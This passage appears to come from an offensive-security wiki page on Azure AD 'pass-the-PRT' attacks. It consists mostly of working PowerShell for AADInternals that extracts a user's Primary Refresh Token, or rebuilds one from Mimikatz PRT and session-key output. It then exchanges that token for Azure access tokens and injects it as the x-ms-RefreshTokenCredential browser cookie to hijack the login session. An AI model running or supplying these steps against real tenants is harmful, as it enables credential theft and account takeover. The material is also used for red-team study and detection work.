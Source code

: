 ### Attack - Using roadrecon

### Attack - Using AADInternals an leaked PTR

`Get-AADIntUserPRTToken` **gets user’s PRT token** from the Azure AD joined or Hybrid joined computer. Uses `BrowserCore.exe` to get the PRT token.

```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```

Or if you have the values from Mimikatz you can also use AADInternals to generate a token:

```powershell
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
$AT = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

# Verify access and connect with Az. You can see account id in mimikatz prt output
Connect-AzAccount -AccessToken $AT -TenantID <tenant-id> -AccountId <acc-id>
```

Go to [https://login.microsoftonline.com](https://login.microsoftonline.com), clear all cookies for login.microsoftonline.com and enter a new cookie.

```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
